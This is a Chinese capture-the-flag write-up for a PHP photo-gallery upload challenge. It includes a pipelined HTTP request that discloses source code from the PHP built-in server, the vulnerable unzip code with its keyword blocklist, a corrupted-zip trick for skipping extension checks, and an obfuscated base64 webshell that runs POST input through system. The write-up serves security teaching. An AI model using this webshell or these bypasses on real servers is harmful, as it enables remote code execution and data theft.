



# SU_photogallery Wp

## 前言

描述以及抽象hint给出的抽象提示是为了体现测试中的网站，因为服务器是php -S 启的PHP Built-in Server，一般就是在测试网站的时候或者一些小体量的网络环境中可能也会用这种方式启服务。明显这种启动方式也是不稳定的，所以有些师傅在选择条件竞争等方式解题时环境会崩溃(原因之一)。正因为是还在开发中的网站，所以存在一些逻辑上的漏洞也是正常的。


## 第一阶段 读源码

在某些操作后肯定会碰到这个界面


如果熟悉的就已经知道是php -S启的服务了，为了增加难度我是把版本给关了是看不到的，因为这个payload很讲究就是地道，少个回车都可能读不了。感觉因为缓存的原因，而且也非常矫情，在赛中碰到了各种情况读不了，有点玄学。

先上payload

```
GET /unzip.php HTTP/1.1
Host: 1.95.157.235:10001

GET /aa.css HTTP/1.1


```

**要关掉Burp自动修改Content-Length的功能**



这里放一下参考的文章 [PHP Development Server <= 7.4.21 - Remote Source Disclosure — ProjectDiscovery Blog](https://projectdiscovery.io/blog/php-http-server-source-disclosure)

简单总结理解一下就是：PHP Built-in Server自己的逻辑漏洞，在解析第一个请求时遗留下来的client->request.path_translated没有被清理，而这个变量指向的就是第一个请求的文件路径，然后在解析第二个请求的时候就会读取到第一个请求的内容。而在解析第二个请求时因为被当做静态文件解析了，所以会返回文件的内容并没有被php解释器解析。

(如果在中途有过在没关闭Update Content-Length的情况下Send了，请重新抓个包再试，否则会一直修正)

## 第二阶段 审计源码

源码如下

```php
<?php
error_reporting(0);

function get_extension($filename){
    return pathinfo($filename, PATHINFO_EXTENSION);
}
function check_extension($filename,$path){
    $filePath = $path . DIRECTORY_SEPARATOR . $filename;
    
    if (is_file($filePath)) {
        $extension = strtolower(get_extension($filename));

        if (!in_array($extension, ['jpg', 'jpeg', 'png', 'gif'])) {
            if (!unlink($filePath)) {
                // echo "Fail to delete file: $filename\n";
                return false;
                }
            else{
                // echo "This file format is not supported:$extension\n";
                return false;
                }
    
        }
        else{
            return true;
            }
}
else{
    // echo "nofile";
    return false;
}
}
function file_rename ($path,$file){
    $randomName = md5(uniqid().rand(0, 99999)) . '.' . get_extension($file);
                $oldPath = $path . DIRECTORY_SEPARATOR . $file;
                $newPath = $path . DIRECTORY_SEPARATOR . $randomName;

                if (!rename($oldPath, $newPath)) {
                    unlink($path . DIRECTORY_SEPARATOR . $file);
                    // echo "Fail to rename file: $file\n";
                    return false;
                }
                else{
                    return true;
                }
}

function move_file($path,$basePath){
    foreach (glob($path . DIRECTORY_SEPARATOR . '*') as $file) {
        $destination = $basePath . DIRECTORY_SEPARATOR . basename($file);
        if (!rename($file, $destination)){
            // echo "Fail to rename file: $file\n";
            return false;
        }
      
    }
    return true;
}


function check_base($fileContent){
    $keywords = ['eval', 'base64', 'shell_exec', 'system', 'passthru', 'assert', 'flag', 'exec', 'phar', 'xml', 'DOCTYPE', 'iconv', 'zip', 'file', 'chr', 'hex2bin', 'dir', 'function', 'pcntl_exec', 'array', 'include', 'require', 'call_user_func', 'getallheaders', 'get_defined_vars','info'];
    $base64_keywords = [];
    foreach ($keywords as $keyword) {
        $base64_keywords[] = base64_encode($keyword);
    }
    foreach ($base64_keywords as $base64_keyword) {
        if (strpos($fileContent, $base64_keyword)!== false) {
            return true;

        }
        else{
           return false;

        }
    }
}

function check_content($zip){
    for ($i = 0; $i < $zip->numFiles; $i++) {
        $fileInfo = $zip->statIndex($i);
        $fileName = $fileInfo['name'];
        if (preg_match('/\.\.(\/|\.|%2e%2e%2f)/i', $fileName)) {
            return false; 
        }
            // echo "Checking file: $fileName\n";
            $fileContent = $zip->getFromName($fileName);
            

            if (preg_match('/(eval|base64|shell_exec|system|passthru|assert|flag|exec|phar|xml|DOCTYPE|iconv|zip|file|chr|hex2bin|dir|function|pcntl_exec|array|include|require|call_user_func|getallheaders|get_defined_vars|info)/i', $fileContent) || check_base($fileContent)) {
                // echo "Don't hack me!\n";    
                return false;
            }
            else {
                continue;
            }
        }
    return true;
}

function unzip($zipname, $basePath) {
    $zip = new ZipArchive;

    if (!file_exists($zipname)) {
        // echo "Zip file does not exist";
        return "zip_not_found";
    }
    if (!$zip->open($zipname)) {
        // echo "Fail to open zip file";
        return "zip_open_failed";
    }
    if (!check_content($zip)) {
        return "malicious_content_detected";
    }
    $randomDir = 'tmp_'.md5(uniqid().rand(0, 99999));
    $path = $basePath . DIRECTORY_SEPARATOR . $randomDir;
    if (!mkdir($path, 0777, true)) {
        // echo "Fail to create directory";
        $zip->close();
        return "mkdir_failed";
    }
    if (!$zip->extractTo($path)) {
        // echo "Fail to extract zip file";
        $zip->close();
    }
    for ($i = 0; $i < $zip->numFiles; $i++) {
        $fileInfo = $zip->statIndex($i);
        $fileName = $fileInfo['name'];
        if (!check_extension($fileName, $path)) {
            // echo "Unsupported file extension";
            continue;
        }
        if (!file_rename($path, $fileName)) {
            // echo "File rename failed";
            continue;
        }
    }
    if (!move_file($path, $basePath)) {
        $zip->close();
        // echo "Fail to move file";
        return "move_failed";
    }
    rmdir($path);
    $zip->close();
    return true;
}


$uploadDir = __DIR__ . DIRECTORY_SEPARATOR . 'upload/suimages/';
if (!is_dir($uploadDir)) {
    mkdir($uploadDir, 0777, true);
}

if (isset($_FILES['file']) && $_FILES['file']['error'] === UPLOAD_ERR_OK) {
    $uploadedFile = $_FILES['file'];
    $zipname = $uploadedFile['tmp_name'];
    $path = $uploadDir;

    $result = unzip($zipname, $path);
    if ($result === true) {
        header("Location: index.html?status=success");
        exit();
    } else {
        header("Location: index.html?status=$result");
        exit();
    }
} else {
    header("Location: index.html?status=file_error");
    exit();
}
```

审计一下

这里直接简单说一下出题时的大致思路:

首先检查压缩包里文件内容有黑名单(简单的过滤和防止穿越)->创建临时文件夹解压(防止条件竞争)->开始解压->解压后进行后缀检查和重命名操作->将文件转移到图库->删除临时文件夹

这里的坑点就在于，可能会被黑名单或者后缀检验等的操作迷惑，想着如何去绕过某一点了，导致陷入了思考的泥潭。其实黑名单就是我随便搞的，这随便绕绕就能过。但是解压后的随机命名和白名单后缀校验真的很难。

或许在此时会想着软链接这样的操作，但是在做题时并不知道绝对路径，php -S 可以让我把这个服务启在任何位置。

这里就是考点了也就是预期解：随机命名和白名单后缀校验看起来是无法绕过的，那是不是可以就不走这里呢,不进入那里不就不会执行那些流程了(在这里请罪，虽然可以用还在开发中来搪塞，但是其实下面的操作for循环写在else里才是本来的想法，在某一次改动的时候可能忘加了sorry!!!但是因为`colse()`了获取不到zip流了所以也能达到效果，万幸)。


可以发现这里在解压失败的时候`$zip->close();`但是并没有return。所以我们只需要构造一个压缩包，解压出我们想解压的部分，然后其他部分是损坏的，这样是不是就可以让整个解压过程是出错的从而进入到if里，我们的shell就这样留下了。

`构造压缩包放入webshell和任意文件如1.txt->开始解压->shell解压成功->1.txt解压失败进入if-> $zip->close()`

但php的ZipArchive解压容忍度挺高的，并且Windows下和Linux下也有所不同，感兴趣的师傅可以研究一下。

这里我用的是Linux下文件名不能是'/'来实现的





## 第三阶段 绕黑名单

其实绕黑名单这里并不是主要考察点，相信师傅们有各种姿势，我用的是php对base64解码的包容性来绕过的

相信师傅们能够一眼出，就不多解释了

```php
<?php
$a = 'edoced_46esab';
$b = strrev($a);

$d = 'c3~@#@#@lz!@dGVt';
$s = $b($d);

echo $sys;
$s($_POST[1]);
?>
```



最后提一嘴，其实要phpinfo看一下或者fuzz一下的，因为我`disable_functions`常见的就放了system

```
php -S 0.0.0.0:80 -t /tmp/suctf_web/ -d expose_php=off -d disable_functions="passthru,exec,putenv,chroot,chgrp,chown,shell_exec,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv"
```

